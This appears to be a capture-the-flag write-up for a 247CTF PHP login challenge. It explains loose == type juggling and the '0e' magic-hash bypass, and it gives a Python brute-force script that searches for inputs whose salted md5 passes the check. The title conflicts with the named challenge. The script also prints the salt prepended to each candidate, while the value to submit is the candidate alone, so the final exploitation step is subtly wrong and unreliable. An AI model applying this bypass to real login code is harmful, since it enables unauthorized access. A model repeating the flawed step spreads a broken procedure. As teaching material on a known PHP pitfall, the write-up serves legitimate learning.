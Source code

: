 
# COMPARE THE PAIR (Web)

## Intro
This is my write-up for the Web challenge "Secured Session" on the CTF site 247CTF.com.

## Challenge Details
The challenge involves guessing a way to bypass the login logic with something about `md5`.

## Steps to Solve

### 1. Access the Application
Start by accessing the web application provided for the challenge.

### 2. Analyze the Provided PHP Code

```php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```

The code takes the `$salt` and concatenates it with our `$password` input, then `md5` hashes it to compare with the `$password_hash`.

We have no information about what the password might be, and brute-forcing it could take a long time.

The vulnerability occurs in the `==` comparison.

### 3. Understanding the Vulnerability

In PHP, the comparison operator `==` is used to compare two values for equality. It checks if the values are equal after performing type juggling, which means PHP will try to convert the values to a common type before making the comparison.

#### Key Points About `==` in PHP:

1. **Type Juggling**: PHP automatically converts the data types of the operands to a common type when using `==`. For example:

   ```php
   if (5 == "5") {
       echo "Equal";
   }
   ```
   In this case, `"5"` (a string) is converted to an integer, so the comparison `5 == "5"` returns true.

2. **Loose Comparison**: Because of type juggling, `==` is known as a "loose comparison." For example:

   ```php
   if (0 == false) {
       echo "Equal";
   }
   ```
   Here, `0` is considered equivalent to `false`, so the comparison returns true.

3. **Common Pitfalls**:
   - Comparing different types can lead to unexpected results:

     ```php
     if ("0" == false) {
         echo "Equal";
     }
     ```
     The string `"0"` is treated as `false` when loosely compared, so this would also return true.

Also, we can see that the format of the `$password_hash` looks like a very large number starting with `0e...`.

When you compare a string like `0e1234` to other values using `==`, PHP treats `0e1234` as a number, specifically the number `0`. This can lead to surprising results:

```php
if ("0e1234" == 0) {
    echo "Equal";
} else {
    echo "Not Equal";
}
```

**Output**: `"Equal"`

### 4. Exploiting the Vulnerability

The vulnerability is clear now: all we have to do is find a password that, when concatenated with `$salt`, its `md5` hash generates a string that looks like a large number (starts with `0e` and the rest are numbers).

I didn't know how to create the code that could help us, but I found a code in another write-up:

```python
from itertools import product  # Import the product function from itertools to generate combinations
import hashlib  # Import the hashlib module for generating MD5 hashes

# Iterate through different lengths of the combination
for x in range(0, 10):  # Loop over lengths from 0 to 9 (inclusive)
    # Generate all possible combinations of the alphabet with the current length 'x'
    for combo in product("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789", repeat=x):
        # Create the string to hash by appending the current combination to the fixed string
        result = hashlib.md5(("f789bbc328a3d1a3" + ''.join(combo)).encode()).hexdigest()

        # Check if the resulting hash has the desired properties
        if result.startswith("0e") and result[2:].isdigit():  # Look for a hash that starts with '0e' and is followed only by digits
            # If a matching hash is found, print the string that generated it
            print("f789bbc328a3d1a3" + ''.join(combo))
        else:
            pass  # If the hash doesn't match the criteria, do nothing and continue
```

Any result we get, we send it to the server with `?password=xxxxxx`. Finally, we get the flag!



### Resources 
https://www.php.net/manual/en/language.types.type-juggling.php
https://github.com/abhaynayar/obsidian/blob/master/labs/web/247ctf.md
